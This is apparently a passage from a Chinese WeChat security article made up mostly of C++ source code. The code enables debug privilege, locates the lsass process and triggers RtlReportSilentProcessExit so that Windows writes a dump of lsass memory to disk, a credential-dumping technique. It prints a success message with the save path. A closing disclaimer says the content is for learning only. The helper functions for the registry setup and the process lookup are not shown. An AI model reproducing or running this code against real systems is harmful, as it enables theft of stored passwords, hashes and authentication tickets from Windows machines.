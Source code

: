     // 启用调试权限void DebugPrivilege(){  //打开进程访问令牌  HANDLE hProcessToken = NULL;  OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hProcessToken);  //取得SeDebugPrivilege特权的LUID值  LUID luid;  LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);  //调整访问令牌特权  TOKEN_PRIVILEGES token;  token.PrivilegeCount = 1;  token.Privileges[0].Luid = luid;  token.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;  //获取debug特权  AdjustTokenPrivileges(hProcessToken, FALSE, &token, 0, NULL, NULL);  CloseHandle(hProcessToken);}  
    int main() {  //提升令牌访问权限  DebugPrivilege();    //设置注册表  regedit();  
      //获取lsass进程pid  DWORD processId = FindProcessId();  
      //获取lsass句柄  HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, processId);  if (hProcess == INVALID_HANDLE_VALUE) {    printf("OpenProcess() --err: %d\n", GetLastError());  }    //从ntdll中取RtlReportSilentProcessExit函数  typedef NTSTATUS(NTAPI* RtlReportSilentProcessExit)(    HANDLE processHandle,    NTSTATUS ExitStatus  );  HMODULE hModule = GetModuleHandle(L"ntdll.dll");  RtlReportSilentProcessExit fRtlReportSilentProcessExit = (RtlReportSilentProcessExit)GetProcAddress(hModule, "RtlReportSilentProcessExit");   //静默退出lsass  NTSTATUS s = fRtlReportSilentProcessExit(hProcess, 0);  if (s == 0) {    printf("Lsass内存转储成功，保存路径：%S", SavePath);  }  CloseHandle(hProcess);  CloseHandle(hModule);}

  
 **注：本文内容仅供学习交流，不可用于非法用途，否则产生的一切后果和法律责任由使用者自行承担，与本文作者及本公众号无关。维护网络安全人人有责 ~**  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

